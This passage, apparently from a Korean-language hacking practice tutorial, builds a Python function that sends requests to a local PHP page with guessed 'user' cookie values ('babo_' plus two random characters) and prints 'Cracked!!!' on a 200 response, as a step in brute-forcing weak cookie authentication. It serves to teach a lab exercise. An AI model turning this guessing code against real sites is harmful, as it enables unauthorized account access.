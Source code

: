이제 이것을 함수로 바꿉니다.

response.status_code 가 200 이면 True 를 return 하도록 합니다.

성공여부를 알 수 있도록 Cracked!!! 도 출력하도록 합니다.

- f-string 을 사용하여, babo_ 가 2자리 랜덤글자 앞에 붙도록 합니다.

```python
import requests

def request_checker(url,random_2char):
    user_value = f"babo_{random_2char}"
    cookies = {
        'user': user_value
    }
    response = requests.get(url, cookies=cookies,allow_redirects=False)
    if(response.status_code==200):
        print(f"Cracked!!! : {user_value}")
        return True
    else:
        print(f"failed : {user_value}")

request_checker(url = 'http://localhost:8000/page-babo.php',random_2char='dg')
```

테스트해보면,

올바른 랜덤문자 2개를 맞추면 Cracked!! 가 출력됩니다.

- 바로 아래에 return 이 있으므로, 함수가 종료됩니다.

![Untitled](Untitled%20496.png)
